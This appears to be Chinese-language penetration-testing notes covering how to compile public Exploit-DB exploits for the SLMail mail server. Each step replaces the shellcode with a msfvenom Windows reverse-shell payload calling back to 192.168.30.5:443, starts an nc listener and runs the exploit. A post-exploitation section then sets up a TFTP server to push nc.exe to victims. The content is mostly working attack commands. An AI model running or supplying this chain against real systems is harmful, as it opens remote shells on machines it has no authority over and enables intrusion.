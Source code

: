 ### 示例1


```fix 643.c
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} .

nano 643.c  使用msfvenom生成shellcode替换, msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 R | msfencode -b '\x00\x0a\x0d' -t c

gcc 643.c -o slmail-linux

file slmail-linux                                           (查看文件属性)

nc -nvlp 443                                                (在另一个终端运行)

./slmail-linux
```

### 示例2

```fix 646.c
apt-get install mingw32                                     (由于646.c是基于windows环境编写的,所以要下载mingw32)

nano 643.c  同样使用msfvenom生成shellcode替换, msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 R | msfencode -b '\x00\x0a\x0d' -t c

i586-mingw32msvc-gcc 646.c                                  (通常情况会报错,把报错信息粘贴到谷歌进行搜索)

i586-mingw32msvc-gcc 646.c -lws2_32 -o slmail-windows.exe   (重新编译)

file slmail-windows.exe                                     (查看文件属性)

nc -nvlp 443                                                (在另一个终端运行)

wine slmail-windows.exe 192.168.30.35
```



# 后渗透

## 文件传输

攻击主机：kali      目标机器:windows/linux

### tftp

基于udp,端口为69

攻击机起tftp:
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
chown -R nobody /tftp
